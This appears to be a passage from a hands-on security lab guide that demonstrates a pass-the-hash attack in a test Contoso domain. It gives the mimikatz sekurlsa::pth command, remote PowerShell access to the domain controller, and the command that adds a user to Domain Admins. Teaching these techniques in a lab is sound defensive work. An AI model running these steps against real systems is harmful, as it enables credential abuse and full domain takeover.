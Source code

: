   
  
#### :calling: COMMAND  
```TypeText  
sekurlsa::pth /user:LabAdmin /domain:contoso /ntlm:Paste\_the\_hash\_here /run:powershell.exe  
```  
  
  
### Access the domain controller as LabAdmin  
In the newly opened Windows PowerShell window, type **Enter-PsSession DC**, and then press **ENTER**.  
 Remote access to a domain controller has now been given to someone who does not know the administrator password, but knows only the NTLM hash.  
  
  
  
#### :calling: COMMAND  
```TypeText  
Enter-PsSession DC  
```  
  
  
### Verify the impersonated identity  
At the Windows PowerShell command prompt, type **whoami**, and then press **ENTER**.  
  
#### :bulb: KNOWLEDGE  
You are signed in to the DC as Contoso\LabAdmin by using a remote Windows PowerShell session. You did not need to enter a password to establish this connection.  
  
#### :camera: SCREENSHOT  
>LODSProperties  
>\* Uri = 656174.PNG  
  
  
  
  
### Add a user to the Domain Admins group  
At the Windows PowerShell command prompt, type the following command, and then press **ENTER**.  
**Add-ADGroupMember -Identity "Domain Admins" -Members "AdamBarr"**  
  
#### :bulb: KNOWLEDGE  
As an attacker, you had access to the AdamBarr domain user  account before the attack, and now you have access to a domain admin account as AdamBarr.  
  
  
  
#### :calling: COMMAND  
```TypeText  
Add-ADGroupMember -Identity "Domain Admins" -Members "AdamBarr"  
```  
  
  
### Verify group membership  
At the Windows PowerShell command prompt, type **Get-ADGroupMember -Identity "Domain Admins"**, and then press **ENTER**. The Adam Barr account is listed as a member of the Domain Admins group.  
  
#### :camera: SCREENSHOT  
>LODSProperties  
>\* Uri = 665265.PNG  
  